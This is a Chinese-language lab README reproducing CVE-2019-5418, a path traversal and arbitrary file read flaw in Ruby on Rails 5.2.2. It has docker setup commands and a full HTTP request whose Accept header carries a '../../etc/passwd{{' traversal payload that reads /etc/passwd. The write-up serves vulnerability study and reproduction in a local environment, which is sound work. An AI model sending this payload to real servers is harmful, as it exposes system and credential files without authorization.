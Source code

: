 # Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

参考链接：

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://xz.aliyun.com/t/4448

## 环境搭建

执行如下命令编译及启动Rail On Rails 5.2.2：

```
docker compose build
docker compose up -d
```

环境启动后，访问`http://your-ip:3000`即可看到Ruby on Rails的欢迎页面。

## 漏洞复现

访问`http://your-ip:3000/robots`可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

成功读取：

![](1.png)
